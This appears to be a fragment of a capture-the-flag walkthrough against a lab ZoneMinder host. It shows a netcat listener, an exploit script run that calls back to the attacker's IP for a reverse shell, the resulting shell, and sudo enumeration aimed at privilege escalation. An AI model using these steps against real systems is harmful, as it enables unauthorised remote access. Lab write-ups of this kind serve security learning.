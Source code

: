 Listeing port
`$ rlwrap nc -lnvp 8888`

Run exploit
`$ python3 exploit.py -t http://127.0.0.1:2222/ -i 10.10.14.49 -p 8888`
```
[>] fetching csrf token
[>] recieved the token: key:9c588a857927b60ea9ffa3eb5055a067587c2e44,1710493239
[>] executing...
[>] sending payload..
```

Then
```
$ rlwrap nc -lnvp 8888
listening on [any] 8888 ...
connect to [10.10.14.49] from (UNKNOWN) [10.10.11.245] 50010
bash: cannot set terminal process group (1113): Inappropriate ioctl for device
bash: no job control in this shell
zoneminder@surveillance:/usr/share/zoneminder/www$ id
uid=1001(zoneminder) gid=1001(zoneminder) groups=1001(zoneminder)
zoneminder@surveillance:/usr/share/zoneminder/www$ sudo -l
Matching Defaults entries for zoneminder on surveillance:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User zoneminder may run the following commands on surveillance:
    (ALL : ALL) NOPASSWD: /usr/bin/zm[a-zA-Z]*.pl *
```
```
zoneminder@surveillance:/usr/share/zoneminder/www$ ls /usr/bin/ |grep zm
bzmore
lzma
lzmainfo
lzmore
unlzma
xzmore
zm_rtsp_server
zmaudit.pl
zmc
zmcamtool.pl
zmcontrol.pl
zmdc.pl
zmfilter.pl
zmonvif-probe.pl
zmonvif-trigger.pl
zmore
zmpkg.pl
zmrecover.pl
zmstats.pl
zmsystemctl.pl
zmtelemetry.pl
zmtrack.pl
zmtrigger.pl
zmu
zmupdate.pl
zmvideo.pl
zmwatch.pl
zmx10.pl
```
